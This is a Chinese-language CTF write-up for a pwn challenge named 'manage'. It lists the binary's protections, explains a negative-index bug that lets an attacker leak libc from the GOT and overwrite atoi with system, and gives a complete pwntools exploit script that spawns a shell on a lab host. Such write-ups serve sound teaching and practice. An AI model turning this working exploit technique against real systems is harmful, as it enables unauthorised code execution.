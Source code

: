# manage 

> 题目可以在[Releases](https://github.com/RocketMaDev/CTFWriteup/releases/download/career/career.tar.zst)附件中找到

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |No    |
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.31-0ubuntu9.16|

## 解题思路

程序看似是菜单题，实际上没有`malloc`和`free`函数，仔细看输入的索引，
以`int`存储，可以为负值。因此可以查看got表来得到libc并写入其他函数。
同时菜单选项是通过`atoi`来转换的，因此把`atoi`写为`system`就可以方便地打开shell

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './manage'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
        libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.15_amd64/libc.so.6')
    else:
        sh = remote('10.10.26.199', 24361)
        libc = ELF('./libc-2.31.so')
    elf = ELF(EXE)

    def show(idx: int) -> bytes:
        sh.sendlineafter(b'system---', b'2')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.recvuntil(b':\n')
        return sh.recvuntil(b'---Welcome')

    def edit(idx: int, buf1: bytes, buf2: bytes):
        sh.sendlineafter(b'system---', b'3')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.sendlineafter(b'card', buf1)
        sh.sendlineafter(b'name', buf2)

    leak1 = show(-1)
    idx = leak1.find(b': ') + 2
    libcBase = u64(leak1[idx:idx + 6] + b'\0\0') - libc.symbols['_IO_2_1_stderr_']
    success(GOLD_TEXT(f'Leak libcBase: {libcBase:#x}'))
    libc.address = libcBase

    edit(-3, p64(libc.symbols['puts']), p64(0) + p64(libc.symbols['system']))

    sh.sendafter(b'system---', b'/bin/sh\0')

    sh.clean()
    sh.interactive()
    sh.close()
```

